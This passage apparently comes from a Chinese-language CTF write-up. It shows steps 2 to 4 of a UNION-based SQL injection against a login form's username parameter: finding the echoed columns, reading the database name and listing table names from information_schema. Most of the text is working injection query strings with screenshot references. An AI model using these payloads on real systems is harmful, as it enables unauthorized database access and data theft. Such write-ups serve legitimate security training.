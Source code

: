 2. #### union确定回显，回显位置为2，3

`?username='union+select+1,2,3+%23&password=123`

![](../pic/40.png)

3. #### 查数据库

`?username='union+select+1,database(),3+%23&password=123`

![](../pic/41.png)

4. #### 查表

`?username='union+select+1,group_concat(table_name),3+from+information_schema.tables+where+table_schema='geek'+%23&password=123`

![](../pic/42.png)
